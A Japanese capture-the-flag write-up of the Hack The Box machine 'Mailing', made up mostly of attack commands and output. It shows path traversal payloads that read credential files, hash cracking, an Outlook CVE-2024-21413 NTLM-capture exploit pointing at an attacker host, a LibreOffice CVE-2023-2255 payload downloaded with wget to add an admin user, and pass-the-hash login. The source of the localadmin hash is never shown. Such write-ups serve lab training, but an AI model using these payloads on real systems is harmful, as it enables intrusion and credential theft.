





# Mailing


Windows · Easy

# 初期調査
## nmap
```
┌──(kali㉿kali)-[~/htb/Retired_Machines/Mailing]
└─$ nmap -sC -sV 10.10.11.14    
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-30 20:49 JST
Nmap scan report for 10.10.11.14
Host is up (0.49s latency).
Not shown: 990 filtered tcp ports (no-response)
PORT    STATE SERVICE       VERSION
25/tcp  open  smtp          hMailServer smtpd
| smtp-commands: mailing.htb, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
80/tcp  open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Did not follow redirect to http://mailing.htb
110/tcp open  pop3          hMailServer pop3d
|_pop3-capabilities: USER TOP UIDL
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
143/tcp open  imap          hMailServer imapd
|_imap-capabilities: IMAP4 SORT QUOTA completed CAPABILITY RIGHTS=texkA0001 CHILDREN IMAP4rev1 NAMESPACE OK ACL IDLE
445/tcp open  microsoft-ds?
465/tcp open  ssl/smtp      hMailServer smtpd
| ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU
| Not valid before: 2024-02-27T18:24:10
|_Not valid after:  2029-10-06T18:24:10
|_ssl-date: TLS randomness does not represent time
| smtp-commands: mailing.htb, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
587/tcp open  smtp          hMailServer smtpd
|_ssl-date: TLS randomness does not represent time
| smtp-commands: mailing.htb, SIZE 20480000, STARTTLS, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
| ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU
| Not valid before: 2024-02-27T18:24:10
|_Not valid after:  2029-10-06T18:24:10
993/tcp open  ssl/imap      hMailServer imapd
|_imap-capabilities: IMAP4 SORT QUOTA completed CAPABILITY RIGHTS=texkA0001 CHILDREN IMAP4rev1 NAMESPACE OK ACL IDLE
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU
| Not valid before: 2024-02-27T18:24:10
|_Not valid after:  2029-10-06T18:24:10
Service Info: Host: mailing.htb; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-04-30T11:51:07
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 143.91 seconds
```
分かったこと
- メールサーバ関連サービス（SMTP/POP3/IMAP）が複数
- 80/tcp open  httpが空いている
- SMB共有あり（445番）

## 名前解決
```
┌──(kali㉿kali)-[~/htb/Retired_Machines/Mailing]
└─$ echo "10.10.11.14 mailing.htb" | sudo tee -a /etc/hosts
[sudo] password for kali: 
10.10.11.14 mailing.htb
```

アクセスする以下のようなサイト



下の方にDownloadボタンがあるので押すと、instructions.pdfが手に入る

## Path Traversal
Burpで見てみると、ファイル名やパスを直接パラメータで受け取っていることが分かった




`?file=../../Windows/win.ini`



`GET /download.php?file=../../Windows/System32/drivers/etc/hosts`




`../../Program+Files+(x86)/hMailServer/Bin/hMailServer.ini`




AdministratorPasswordが分かった

`AdministratorPassword=841bb5acfa6779ae432fd7a4e6600ba7`

## パスワード解析

```
┌──(kali㉿kali)-[~/htb/Retired_Machines/Mailing]
└─$ hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

841bb5acfa6779ae432fd7a4e6600ba7:homenetworkingadministrator
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: 841bb5acfa6779ae432fd7a4e6600ba7
Time.Started.....: Wed Apr 30 21:26:12 2025 (9 secs)
Time.Estimated...: Wed Apr 30 21:26:21 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   865.1 kH/s (0.15ms) @ Accel:512 Loops:1 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 7563264/14344385 (52.73%)
Rejected.........: 0/7563264 (0.00%)
Restore.Point....: 7562240/14344385 (52.72%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: homepark11 -> home38119
Hardware.Mon.#1..: Util: 33%

Started: Wed Apr 30 21:26:09 2025
Stopped: Wed Apr 30 21:26:22 2025
```


MD5でハッシュ化されていた、解読できた

pass : `homenetworkingadministrator`

## CVE-2024-21413

```
┌──(kali㉿kali)-[~/htb/Retired_Machines/Mailing/CVE-2024-21413]
└─$ git clone https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability.git
Cloning into 'CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability'...
remote: Enumerating objects: 28, done.
remote: Counting objects: 100% (28/28), done.
remote: Compressing objects: 100% (27/27), done.
remote: Total 28 (delta 7), reused 6 (delta 0), pack-reused 0 (from 0)
Receiving objects: 100% (28/28), 14.48 KiB | 673.00 KiB/s, done.
Resolving deltas: 100% (7/7), done.
```


ローカルNTMLを取得する

待ち側

```
┌──(kali㉿kali)-[~]
└─$ sudo responder -I tun0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.4.0

  To support this project:
  Github -> https://github.com/sponsors/lgandx
  Paypal  -> https://paypal.me/PythonResponder

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    MQTT server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]
    SNMP server                [OFF]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.14.5]
    Responder IPv6             [dead:beef:2::1003]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']

[+] Current Session Variables:
    Responder Machine Name     [WIN-ZEDAVNXIE07]
    Responder Domain Name      [LOGL.LOCAL]
    Responder DCE-RPC Port     [45573]

[+] Listening for events...                                                                                
```

Exploit実行側
```
┌──(kali㉿kali)-[~/…/Retired_Machines/Mailing/CVE-2024-21413/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability]
└─$ python3 CVE-2024-21413.py --server mailing.htb --port 587 --username administrator@mailing.htb --password homenetworkingadministrator --sender administrator@mailing.htb --recipient maya@mailing.htb --url '\\<attacker_ip>\mail' --subject exploit

CVE-2024-21413 | Microsoft Outlook Remote Code Execution Vulnerability PoC.
Alexander Hagenah / @xaitax / ah@primepage.de                                                                      

✅ Email sent successfully.

```


成功すると待ち側ではmayaのNTMLが取得できる
```
[+] Listening for events...

[SMB] NTLMv2-SSP Client   : 10.10.11.14
[SMB] NTLMv2-SSP Username : MAILING\maya
[SMB] NTLMv2-SSP Hash     : maya::MAILING:8c7bc2032f0007bd:638C5D88DB63506BD4AA09FA8F0639E3:010100000000000080642CEB1BBADB01D8A44E4F3ED6181300000000020008004C004F0047004C0001001E00570049004E002D005A0045004400410056004E005800490045003000370004003400570049004E002D005A0045004400410056004E00580049004500300037002E004C004F0047004C002E004C004F00430041004C00030014004C004F0047004C002E004C004F00430041004C00050014004C004F0047004C002E004C004F00430041004C000700080080642CEB1BBADB01060004000200000008003000300000000000000000000000002000009EBBD013408BAA3C1AC19A30AB9197B57CE1EE4482A21D2757EA3EED65149C090A0010000000000000000000000000000000000009001E0063006900660073002F00310030002E00310030002E00310034002E0035000000000000000000                                 
[*] Skipping previously captured hash for MAILING\maya
[*] Skipping previously captured hash for MAILING\maya
```

## john

```
┌──(kali㉿kali)-[~/htb/Retired_Machines/Mailing]
└─$ cat hash2.txt 
maya::MAILING:8c7bc2032f0007bd:638C5D88DB63506BD4AA09FA8F0639E3:010100000000000080642CEB1BBADB01D8A44E4F3ED6181300000000020008004C004F0047004C0001001E00570049004E002D005A0045004400410056004E005800490045003000370004003400570049004E002D005A0045004400410056004E00580049004500300037002E004C004F0047004C002E004C004F00430041004C00030014004C004F0047004C002E004C004F00430041004C00050014004C004F0047004C002E004C004F00430041004C000700080080642CEB1BBADB01060004000200000008003000300000000000000000000000002000009EBBD013408BAA3C1AC19A30AB9197B57CE1EE4482A21D2757EA3EED65149C090A0010000000000000000000000000000000000009001E0063006900660073002F00310030002E00310030002E00310034002E0035000000000000000000
                                                                                                                   
┌──(kali㉿kali)-[~/htb/Retired_Machines/Mailing]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash2.txt  
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
m4y4ngs4ri       (maya)     
1g 0:00:00:04 DONE (2025-04-30 22:11) 0.2352g/s 1396Kp/s 1396Kc/s 1396KC/s m51376..m4895621
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed. 
```


pass : `m4y4ngs4ri`

# 初期侵入

```
┌──(kali㉿kali)-[~/htb/Retired_Machines/Mailing]
└─$ evil-winrm -u maya -p m4y4ngs4ri -i mailing.htb                     
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                                                                                               
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                                                                                                 
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\maya\Documents> whoami
mailing\maya

*Evil-WinRM* PS C:\Users\maya\Documents> ls


    Directory: C:\Users\maya\Documents


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         3/13/2024   4:49 PM                WindowsPowerShell
-a----         3/22/2025   4:25 PM           2257 mail.py
```

```
*Evil-WinRM* PS C:\Users\maya> cd Desktop
*Evil-WinRM* PS C:\Users\maya\Desktop> ls


    Directory: C:\Users\maya\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         2/28/2024   7:34 PM           2350 Microsoft Edge.lnk
-ar---         4/30/2025   1:49 PM             34 user.txt

*Evil-WinRM* PS C:\Users\maya\Desktop> type user.txt
fc4*****************************
```

`fc4*****************************`


# 権限昇格

```
*Evil-WinRM* PS C:\Users\maya> type "C:\program files\libreoffice\program\version.ini"
[Version]
AllLanguages=en-US af am ar as ast be bg bn bn-IN bo br brx bs ca ca-valencia ckb cs cy da de dgo dsb dz el en-GB en-ZA eo es et eu fa fi fr fur fy ga gd gl gu gug he hsb hi hr hu id is it ja ka kab kk km kmr-Latn kn ko kok ks lb lo lt lv mai mk ml mn mni mr my nb ne nl nn nr nso oc om or pa-IN pl pt pt-BR ro ru rw sa-IN sat sd sr-Latn si sid sk sl sq sr ss st sv sw-TZ szl ta te tg th tn tr ts tt ug uk uz ve vec vi xh zh-CN zh-TW zu
buildid=43e5fcfbbadd18fccee5a6f42ddd533e40151bcf
ExtensionUpdateURL=https://updateexte.libreoffice.org/ExtensionUpdateService/check.Update
MsiProductVersion=7.4.0.1
ProductCode={A3C6520A-E485-47EE-98CC-32D6BB0529E4}
ReferenceOOoMajorMinor=4.1
UpdateChannel=
UpdateID=LibreOffice_7_en-US_af_am_ar_as_ast_be_bg_bn_bn-IN_bo_br_brx_bs_ca_ca-valencia_ckb_cs_cy_da_de_dgo_dsb_dz_el_en-GB_en-ZA_eo_es_et_eu_fa_fi_fr_fur_fy_ga_gd_gl_gu_gug_he_hsb_hi_hr_hu_id_is_it_ja_ka_kab_kk_km_kmr-Latn_kn_ko_kok_ks_lb_lo_lt_lv_mai_mk_ml_mn_mni_mr_my_nb_ne_nl_nn_nr_nso_oc_om_or_pa-IN_pl_pt_pt-BR_ro_ru_rw_sa-IN_sat_sd_sr-Latn_si_sid_sk_sl_sq_sr_ss_st_sv_sw-TZ_szl_ta_te_tg_th_tn_tr_ts_tt_ug_uk_uz_ve_vec_vi_xh_zh-CN_zh-TW_zu
UpdateURL=https://update.libreoffice.org/check.php
UpgradeCode={4B17E523-5D91-4E69-BD96-7FD81CFA81BB}
UpdateUserAgent=<PRODUCT> (${buildid}; ${_OS}; ${_ARCH}; <OPTIONAL_OS_HW_DATA>)
Vendor=The Document Foundation
```


https://github.com/elweth-sec/CVE-2023-2255

exploitを実行すると、.odtファイルが作成される。それをImportant Documentsフォルダにアップロードして、--cmd以降に指定したコマンドが実行されるので、mayaをAdministradoresグループに追加するコマンドを指定すれば、権限昇格できる

exploitの実行しれ対象に送る
```
┌──(kali㉿kali)-[~/htb/Retired_Machines/Mailing/CVE-2023-2255]
└─$ python3 CVE-2023-2255.py --cmd 'net localgroup Administradores maya /add' --output 'exploit.odt'
File exploit.odt has been created !

┌──(kali㉿kali)-[~/htb/Retired_Machines/Mailing/CVE-2023-2255]
└─$ python3 -m http.server 8000                                                                                      
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.14 - - [30/Apr/2025 22:46:57] "GET /exploit.odt HTTP/1.1" 200 -
```

対象側でダウンロード

```
*Evil-WinRM* PS C:\Important Documents> wget http://<attacker_ip>:8000/exploit.odt -o exploit.odt
*Evil-WinRM* PS C:\Important Documents> net users maya
User name                    maya
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            2024-04-12 4:16:20 AM
Password expires             Never
Password changeable          2024-04-12 4:16:20 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   2025-04-30 3:46:57 PM

Logon hours allowed          All

Local Group Memberships      *Administradores      *Remote Management Use
                             *Usuarios             *Usuarios de escritori
Global Group memberships     *Ninguno
The command completed successfully.
```


localadminのハッシュを使って、権限昇格する

```
┌──(kali㉿kali)-[~/htb/Retired_Machines/Mailing/CVE-2023-2255]
└─$ impacket-wmiexec localadmin@10.10.11.14 -hashes aad3b435b51404eeaad3b435b51404ee:9aa582783780d1546d62f2d102daefae
Impacket v0.12.0.dev1 - Copyright 2023 Fortra
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
mailing\localadmin

C:\>ls
'ls' is not recognized as an internal or external command,
operable program or batch file.

C:\>cd Users/localadmin
C:\Users\localadmin>ls
'ls' is not recognized as an internal or external command,
operable program or batch file.

C:\Users\localadmin>dir
 Volume in drive C has no label.
 Volume Serial Number is 9502-BA18

 Directory of C:\Users\localadmin

2024-03-04  09:32 PM    <DIR>          .
2024-03-04  09:32 PM    <DIR>          ..
2024-03-03  05:40 PM    <DIR>          .dotnet
2024-02-27  05:30 PM    <DIR>          3D Objects
2024-02-27  05:30 PM    <DIR>          Contacts
2024-04-12  06:10 AM    <DIR>          Desktop
2024-03-14  04:39 PM    <DIR>          Documents
2024-05-08  03:37 PM    <DIR>          Downloads
2024-02-27  05:30 PM    <DIR>          Favorites
2024-02-27  05:30 PM    <DIR>          Links
2024-02-27  05:30 PM    <DIR>          Music
2024-02-27  05:32 PM    <DIR>          OneDrive
2024-02-27  05:32 PM    <DIR>          Pictures
2024-02-27  05:30 PM    <DIR>          Saved Games
2024-02-27  05:31 PM    <DIR>          Searches
2024-03-05  04:37 PM    <DIR>          Videos
               0 File(s)              0 bytes
              16 Dir(s)   4,650,725,376 bytes free

C:\Users\localadmin>cd Desktop
C:\Users\localadmin\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 9502-BA18

 Directory of C:\Users\localadmin\Desktop

2024-04-12  06:10 AM    <DIR>          .
2024-04-12  06:10 AM    <DIR>          ..
2024-02-27  05:30 PM             2,350 Microsoft Edge.lnk
2025-04-30  01:49 PM                34 root.txt
               2 File(s)          2,384 bytes
               2 Dir(s)   4,650,729,472 bytes free

C:\Users\localadmin\Desktop>type root.txt
38e*****************************
```

`38e*****************************`